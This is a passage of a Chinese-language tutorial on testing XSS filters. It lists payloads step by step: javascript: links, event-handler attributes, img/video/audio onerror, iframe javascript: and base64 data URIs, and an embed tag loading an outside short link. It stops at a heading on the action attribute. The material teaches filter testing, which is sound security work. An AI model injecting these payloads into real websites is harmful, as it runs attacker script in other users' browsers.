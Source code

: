 ```
<a href="http://www.google.com">Clickme</a> 
```

> `<a`标签是否被过滤 href 是否被过滤 href 里的数据是否被过滤

如果没有数据被过滤，插入 javascript 协议看看：

```
<a href="javascript:alert(1)">Clickme</a> 
```

> 是否返回错误 javascript 的整个协议内容是否都被过滤掉，还是只过滤了 javascript 字符 尝试下大小写转换

继续测试事件触发执行 javascript：

```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a> 
```

看 onmouseover 事件是否被过滤。测试一个无效的事件，看过滤规则：

```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a> 
```

是完整的返回了呢，还是跟 onmouseover 一样被干掉了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在 HTML5 中，有超过 150 种的方式来执行 javascript 代码的事件测试一个很少见的事件：

```
<body/onhashchange=alert(1)><a href=#>clickit 
```

### 测试其他标签

接下来测试其他的标签跟属性

#### Src 属性

```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);> 
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);> 
```

#### iframe 标签

```
<iframe src="javascript:alert(2)">
<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg=="> 
```

#### embed 标签

```
<embed/src=//goo.gl/nlX0P> 
```

#### action 属性
